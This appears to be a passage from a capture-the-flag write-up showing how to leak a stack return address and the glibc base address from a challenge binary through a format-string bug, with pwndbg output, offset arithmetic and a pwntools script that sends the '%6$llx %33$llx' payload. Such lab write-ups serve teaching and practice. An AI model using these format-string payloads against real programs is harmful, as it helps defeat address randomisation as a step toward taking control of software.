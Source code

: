 ## Return address on stack

Let's go back to the main menu and look at the running binary with `gdb`.

```
pwndbg> bt
#0  0x00007f3959510031 in __GI___libc_read
#1  0x00007f395948d0f8 in _IO_new_file_underflow
#2  0x00007f395948e3a2 in __GI__IO_default_uflow
#3  0x0000555be42010ed in getchr ()
#4  0x0000555be4201753 in showMenu ()
#5  0x0000555be4201fcc in main ()
#6  0x00007f3959421c87 in __libc_start_main
#7  0x0000555be4200f5a in _start ()

pwndbg> stack 100
1a:00d0│     0x7ffdd7ce9738 —▸ 0x555be4201fcc (main+729) ◂— mov dword ptr [rbp - 0x70], 0
```

And we have `%6$llx` yielding `0x7ffdd7ce98a0`. Therefore,
`%6$llx + 0x7ffdd7ce9738 - 0x7ffdd7ce98a0` should get us the return address on stack.

## libC address

```
pwndbg> print (void*)__libc_start_main
$5 = (void *) 0x7f3959421ba0 <__libc_start_main>
```

```
$ objdump -T libc-2.27.so  | grep __libc_start_main
0000000000021ba0 g    DF .text  00000000000001be  GLIBC_2.2.5 __libc_start_main
```

And closest we have to `0x7f3959421ba0` is `%33llx` yielding `0x7f3959421c87`. Therefore:

*   `__libc_start_main` = `%33llx` + `0x7f3959421ba0 - 0x7f3959421c87`
*   glibc base address = `%33llx` + `0x7f3959421ba0 - 0x7f3959421c87 - 0x21ba0`

## Trigger the leaks

```python
io.sendlineafter("Please enter your username: ", "0x%6$llx 0x%33$llx")

io.sendlineafter(PROMPT, "u")
io.recvuntilS("Your old username: ")

(retaddr, libcPtr) = io.recvlineS().strip().split(" ")
retaddr = int(retaddr, 16) + 0x7ffdd7ce9738 - 0x7ffdd7ce98a0
libcPtr = int(libcPtr, 16) + 0x7f3959421ba0 - 0x7f3959421c87 - 0x21ba0

username = "USERNAME"
io.sendlineafter("New username length: ", str(len(username)))
usernamePtr = int(io.recvlineS().strip(), 16)
io.sendlineafter("New Username: ", username)
```
